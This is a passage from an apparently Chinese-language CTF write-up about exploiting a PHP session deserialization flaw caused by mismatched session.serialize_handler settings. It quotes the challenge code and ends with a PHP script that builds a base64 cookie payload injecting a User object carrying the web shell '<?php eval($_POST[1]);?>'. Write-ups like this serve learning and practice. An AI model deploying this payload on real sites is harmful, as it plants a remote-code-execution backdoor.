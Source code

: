 ```php
}
```

文件开头

```php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('session.serialize_handler', 'php');
```

另外 index.php 中有一处可以设置 session 的点, 而且并没有引用上面的 inc.php

```php
error_reporting(0);
session_start();
//超过5次禁止登陆
if(isset($_SESSION['limit'])){
	$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
	$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
}else{
	setcookie("limit",base64_encode('1'));
	$_SESSION['limit']= 1;
}
```

check.php 开头

```php
error_reporting(0);
require_once 'inc/inc.php';
$GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);
```



考点应该是 session 反序列化漏洞

不过找了一遍发现并没有 `unserialize()`, 如果想要反序列化的话, 那就得用到 `session.serialize_handler` 之间的差异性

这里引用下 lemon 师傅的表

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208151913970.png)

不过并不知道 php.ini 默认使用的 handler 是什么...

但因为 inc.php 里显式的设置了 php 这个 handler, 可以大胆猜测一下默认的是 php_serialize (?)

也就是说 index.php 使用 php_serialize handler 序列化我们传入的 cookie 值, 生成对应的 session 文件

而 inc.php 里使用 php handler 反序列化 session 文件

我们利用 php handler 中的 `|` 来进行反序列化

payload

```php
<?php

class User{
    public $username;
    public $password;
    function __construct(){
        $this->username = '123.php';
        $this->password = '<?php eval($_POST[1]);?>';
    }
}

echo base64_encode('|'.serialize(new User()));

?>
```
